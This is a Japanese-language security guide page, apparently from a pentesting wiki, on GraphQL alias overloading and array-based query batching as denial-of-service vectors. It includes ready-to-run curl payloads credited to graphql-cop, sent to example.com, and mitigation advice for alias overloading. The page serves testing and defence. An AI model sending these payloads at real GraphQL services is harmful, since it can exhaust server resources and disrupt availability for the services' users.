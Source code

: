 ### Alias Overloading

**Alias Overloading**は、攻撃者が同じフィールドに対して多くのエイリアスでクエリを過負荷にし、バックエンドリゾルバがそのフィールドを繰り返し実行するGraphQLの脆弱性です。これによりサーバーリソースが圧倒され、**サービス拒否（DoS）**につながる可能性があります。例えば、以下のクエリでは、同じフィールド（`expensiveField`）がエイリアスを使用して1,000回要求され、バックエンドがそれを1,000回計算することを強制され、CPUやメモリが枯渇する可能性があります：

{% code overflow="wrap" %}
```graphql
# Test provided by https://github.com/dolevf/graphql-cop
curl -X POST -H "Content-Type: application/json" \
-d '{"query": "{ alias0:__typename \nalias1:__typename \nalias2:__typename \nalias3:__typename \nalias4:__typename \nalias5:__typename \nalias6:__typename \nalias7:__typename \nalias8:__typename \nalias9:__typename \nalias10:__typename \nalias11:__typename \nalias12:__typename \nalias13:__typename \nalias14:__typename \nalias15:__typename \nalias16:__typename \nalias17:__typename \nalias18:__typename \nalias19:__typename \nalias20:__typename \nalias21:__typename \nalias22:__typename \nalias23:__typename \nalias24:__typename \nalias25:__typename \nalias26:__typename \nalias27:__typename \nalias28:__typename \nalias29:__typename \nalias30:__typename \nalias31:__typename \nalias32:__typename \nalias33:__typename \nalias34:__typename \nalias35:__typename \nalias36:__typename \nalias37:__typename \nalias38:__typename \nalias39:__typename \nalias40:__typename \nalias41:__typename \nalias42:__typename \nalias43:__typename \nalias44:__typename \nalias45:__typename \nalias46:__typename \nalias47:__typename \nalias48:__typename \nalias49:__typename \nalias50:__typename \nalias51:__typename \nalias52:__typename \nalias53:__typename \nalias54:__typename \nalias55:__typename \nalias56:__typename \nalias57:__typename \nalias58:__typename \nalias59:__typename \nalias60:__typename \nalias61:__typename \nalias62:__typename \nalias63:__typename \nalias64:__typename \nalias65:__typename \nalias66:__typename \nalias67:__typename \nalias68:__typename \nalias69:__typename \nalias70:__typename \nalias71:__typename \nalias72:__typename \nalias73:__typename \nalias74:__typename \nalias75:__typename \nalias76:__typename \nalias77:__typename \nalias78:__typename \nalias79:__typename \nalias80:__typename \nalias81:__typename \nalias82:__typename \nalias83:__typename \nalias84:__typename \nalias85:__typename \nalias86:__typename \nalias87:__typename \nalias88:__typename \nalias89:__typename \nalias90:__typename \nalias91:__typename \nalias92:__typename \nalias93:__typename \nalias94:__typename \nalias95:__typename \nalias96:__typename \nalias97:__typename \nalias98:__typename \nalias99:__typename \nalias100:__typename \n }"}' \
'https://example.com/graphql'
```
{% endcode %}

これを軽減するために、リソースの悪用を防ぐためにエイリアスカウント制限、クエリの複雑さ分析、またはレート制限を実装します。

### **配列ベースのクエリバッチ処理**

**配列ベースのクエリバッチ処理**は、GraphQL APIが単一のリクエストで複数のクエリをバッチ処理することを許可する脆弱性であり、攻撃者が同時に大量のクエリを送信できるようになります。これにより、すべてのバッチクエリが並行して実行され、バックエンドが圧倒され、過剰なリソース（CPU、メモリ、データベース接続）を消費し、最終的には**サービス拒否（DoS）**につながる可能性があります。バッチ内のクエリ数に制限がない場合、攻撃者はこれを悪用してサービスの可用性を低下させることができます。

{% code overflow="wrap" %}
```graphql
# Test provided by https://github.com/dolevf/graphql-cop
curl -X POST -H "User-Agent: graphql-cop/1.13" \
-H "Content-Type: application/json" \
-d '[{"query": "query cop { __typename }"}, {"query": "query cop { __typename }"}, {"query": "query cop { __typename }"}, {"query": "query cop { __typename }"}, {"query": "query cop { __typename }"}, {"query": "query cop { __typename }"}, {"query": "query cop { __typename }"}, {"query": "query cop { __typename }"}, {"query": "query cop { __typename }"}, {"query": "query cop { __typename }"}]' \
'https://example.com/graphql'
```
{% endcode %}
